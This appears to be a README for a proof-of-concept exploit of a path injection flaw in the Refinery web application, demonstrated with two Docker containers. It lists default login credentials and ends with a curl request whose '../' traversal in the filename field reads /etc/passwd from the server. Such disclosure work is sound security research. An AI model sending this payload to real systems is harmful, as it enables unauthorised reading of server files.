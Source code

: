 # Path injection in Refinery

This directory contains a proof-of-concept exploit for a path injection vulnerability in [Refinery](https://github.com/daeilkim/refinery).

To demonstrate the PoC in a safe environment, we will use two docker containers connected by a docker network bridge to simulate two separate computers: the first is the Refinery server and the second is the attacker's computer.

We have tried to make the `Dockerfile`'s for the server and attacker as simple as possible, to make it clear that we have used vanilla [Ubuntu 18.04](http://releases.ubuntu.com/18.04/) with no unusual packages installed.

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```bash
docker network create -d bridge --subnet 172.18.0.0/16 refinery-demo-network
```

## Refinery server setup

Build the docker image:

```bash
cd refinery-server
docker build . -t refinery-server --build-arg UID=`id -u`
```

Start the container:

```bash
docker run --rm --network refinery-demo-network --ip=172.18.0.10 -h refinery-server --publish 8080:8080 -i -t refinery-server
```

Inside the container, start postgresql and Refinery.

```bash
sudo service postgresql start  # sudo password is "x"
sudo -u postgres createuser --superuser victim
sudo -u postgres createdb refinery
cd refinery/refinery
./reset_db.py
./start_refinery.sh
```

At this point, you can check that Refinery is running by visiting [http://127.0.0.1:8080](http://127.0.0.1:8080) in your browser. (We exposed port 8080 on the docker container.) You should see a login screen. These are the default credentials:

```
username: doc
password: refinery
```

## Attacker setup

Build the docker image:

```bash
cd refinery-attacker
docker build . -t refinery-attacker
```

Start the container:

```bash
docker run --rm --network refinery-demo-network --ip=172.18.0.11 -h refinery-attacker -i -t refinery-attacker
```

Inside the container, use `curl` to read arbitrary files on the server:

```bash
curl -d "filename=../../../../../../../../../../../../../../etc/passwd" -X POST http://172.18.0.10:8080/doc/get_doc_text
```
